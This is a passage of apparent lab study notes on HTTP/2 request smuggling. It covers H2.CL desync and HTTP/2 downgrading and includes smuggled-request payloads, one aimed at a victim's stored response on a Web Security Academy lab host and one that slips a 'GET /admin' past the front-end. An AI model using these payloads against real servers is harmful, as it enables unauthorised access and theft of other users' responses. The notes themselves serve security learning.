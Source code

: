     0

    GET /my-account HTTP/1.1
    X-Ignore:

Then issue this request to view the victim's stored response:

    GET /resources/js/tracking.js HTTP/2
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net

# HTTP/2 request smuggling
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.

In theory, this mechanism means there is no opportunity for an attacker to introduce the ambiguity required for request smuggling, as long as the website uses HTTP/2 end to end.

## HTTP/2 downgrading
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1.

## H2.CL vulnerabilities
It may be possible to smuggle requests by injecting a misleading content-length header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the Content-Length header derived from your injected one, resulting in a desync.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    content-length	0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10

    x=1

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10
